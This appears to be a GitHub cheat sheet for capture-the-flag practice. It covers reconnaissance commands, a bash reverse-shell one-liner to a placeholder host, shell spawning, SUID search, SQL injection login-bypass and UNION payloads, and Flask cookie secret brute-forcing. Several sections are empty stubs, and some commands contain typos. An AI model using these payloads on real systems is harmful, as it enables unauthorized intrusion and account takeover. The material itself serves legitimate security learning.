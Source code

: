 # Table of Content
- [Online Practice Ground](#practice)
- [Useful Linux Command](#linux)
- [Useful Reverse Shell](#reverseshell)
- [Reconnaissance](#recon)
   - [Nmap](#nmap)
   - [Nikto](#nikto)
   - [Google Dorking](#googledork)
- [Privilege Escalation](#privesc)
   - [Shell Spawning](#shellspawn)
   - [SUID](#suid)
- [Web App](#webapp)
   - [SQL Injection](#sqlinj)
   - [Flask Cookies Forge](#flaskcookie)
   - [XSS](#xss)
   - [Symfony](#symfony)
   - [XML External Entity (XXE)](#xxe)
   - [Subdomain Takeover](#subdomain)
- [Reverse Engineering](#re)
   - [Methodology](#remeth)

<a name="practice"></a>
## Online Practice Ground

https://ctf.airgapp.in/
https://tghack.no/
https://ctfd.sharkyctf.xyz
https://covid19.threatsims.com/

<a name="linux"></a>
## Useful Linux Command

- ```ls```: List every file in a directory
- ```ls -al```: List every file in directory with its chmod.
- ```cd [directory]```: Enter a directory
- ```cd ..```: Go back up one directory
- ```cd ~```: go back to home directory
- ```pwd```: current folder
- ```strings [file]``` : Grab human readable strings from a binary file
- ```file [directory] -type f -size 1033c -executable -readable```: Find a human readable file with size 1033, and executable.
- ```chmod +x [file]```: Add executable to file's chmod;
- ```uniq [file1] [file2]```: Find the unique line between two files
- ```base64 -d [file]```: Use base64 to decode text stored in file.
- ```cat [file] | tr 'A-Za-z' 'N-ZA-Mn-za-m'```: Open a file and rot13
- ```xxd [file]```: Read binary data of a file

<a name="recon"></a>
## Reconnaissance

<a name="nmap"></a>
### Nmap

- ```nmap -p- -oA full-nonscripts [Target IP] --max-retries 0```: 
- ```nmap -sC -sV -O -oA [file] [target ip]```:




<a name="nikto"></a>
### Nikto

<a name="googledork"></a>
### Google Dork

To find subdomains of a website:

```
site:[website] -www
```

Try to find secret file of a website:

```
site:[website] intitle:"index of"

```

<a name="reverseshell"></a>
## Useful Reverse Shell

```bash -i >& /dev/tcp/[host]/[port] 0>&1```

<a name ="privesc"></a>
## Privilege Escalation

<a name="shellspawn"></a>
### Shell Spawning 

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```


<a name="suid"></a>
### SUID

To find file with SUID bit. Simply use following command:

```
find [directory] -perm -u=s -type f 2>/dev/null
```

<a name="webapp"></a>
## Web App 

<a name="sqlinj"></a>
### SQL Injection

#### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```SQL
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```


```SQL
 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```

<a name ="flaskcookie"></a>
### Flask Cookie Forge

For Flask Web App, there is a very major security risk in its session management if the developer uses its in-built session management function. If you have built a Flask app before, you would be noticed that you need to define something like below in your code:

```python
app.config['SECRET_KEY'] = "secret"
```
The secret key above is used to sign a cookies generated by its session management function. A signed Flask cookies is something like below:-

```
eyxxxxxxxxxxxxxx.xxxxxx.xxxxxxxxx
```
If you found out the webapp has some cookies like this, it is very likely that it is generated by Flask. If you want to further confirm, you can use base64 to decode it. You should able to decode the first part of cookies into a dictionary like below:

```
{'username': 'user', 'login': 'false'}
```

So, it is logical to think that if you can login to true, it might log you in. Thus, your next step is to find out what the secret key is for you to make a manipulated flask cookie to trick the web app server. To do that, you can download an opensource module called "flask-unsign" to help. 

```
pip3 install flask-unsign[wordlist]
```
Then, use below command to find out the secret key:

```
flask-unsign --unisgn -cookie "eyxxxxxxxxxxxxx.xxxx.xxxxxx"
```
This command would brute force and find out the secret key. Once, a secret key is found (e.g. password1), you can sign a new flask cookie with the key and manipluated data. 





<a name = "xss"></a>
### XSS

<a name ="symfony"></a>
### Symfony
If the web app uses a php tools called symfony, you can try to access /_profile to access the log.

<a name = "xxe"></a>
### XML External Entity (XXE)
In web app that 


<a name ="subdomain"></a>
### Subdomain Takeover

<a name ="re"></a>
# Reverse Engineering

<a name="remeth"></a>
## Methodology
In CTF, once got a Reverser Engineering question, first thing to do is to check readable strings using following command
```
strings [filename]
```

If nothing interesting found, try following to find out what the file type is.

```
file [filename]
```





